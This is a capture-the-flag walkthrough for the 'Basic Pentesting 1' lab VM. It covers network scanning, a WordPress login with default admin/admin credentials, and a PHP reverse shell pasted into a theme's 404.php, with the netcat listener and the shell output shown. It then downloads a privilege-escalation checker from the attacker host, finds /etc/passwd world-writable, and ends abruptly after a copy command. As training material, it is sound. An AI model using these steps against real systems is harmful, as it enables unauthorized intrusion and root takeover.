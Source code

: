 # Basic Pentesting 1

### Find own IP/Network

    ifconfig

>eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Scan Network


    nmap 192.168.30.0/24
    
    >Nmap scan report for 192.168.30.128
Host is up (0.00072s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:64:FF (VMware)

    
### Add host to hosts file for convenience

    echo 192.168.30.128 vtcsec >> /etc/hosts
    
    
### Enumerate HTTP

    nmap --script=http-enum vtcsec
  
  
  
>Nmap scan report for vtcsec (192.168.30.128)
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:04:64:FF (VMware)

### The wordpress site

Navigate to:
    
    vtcsec/secret
    
This is found to be a wordpress site. Try the default login page wp-login.php to see if it works

    vtcsec/secret/wp-login.php
    
 Login Page Found

Test Default Password

    Login: admin
    Pass: admin
    

### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS


### Set up listener

    nc -lvp 7777
    
### Open page and load the 404.php

    (open in browser) vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
    or
    
    curl vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
Reverse shell received
    
    >root@kali:~# nc -lvp 7777
listening on [any] 7777 ...
connect to [192.168.30.131] from vtcsec [192.168.30.128] 57100
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:37:43 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
    
    
### Privilege Escalation

Upload an escalation checker script. LinEnum.sh used here

        cd <folder with script>
        python -m SimpleHTTPServer 1234
        
On reverse shell, navigate to a world writable folder and download

        cd /tmp
        wget 192.168.30.131;1234/LinEnum.sh
        
>$ wget 192.168.30.131:1234/unix-privesc-check
--2018-12-11 06:22:18--  http://192.168.30.131:1234/unix-privesc-check
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 49721 (49K) [application/octet-stream]
Saving to: 'unix-privesc-check'

     0K .......... .......... .......... .......... ........  100% 15.2M=0.003s

2018-12-11 06:22:18 (15.2 MB/s) - 'unix-privesc-check' saved [49721/49721]



### Run Script

        chmod +x unix-*
        (because i'm lazy af)
        ./unix-* standard | grep WARNING
        
Something interesting is found

>$ ./unix-* standard | grep WARNING                               
passwd: Permission denied.
Search the output below for the word 'WARNING'.  If you don't see it then
[UPC004] WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd
[UPC004] WARNING: /etc/passwd can be written to World write is set for /etc/passwd

cp /etc/passwd /var/www/html/

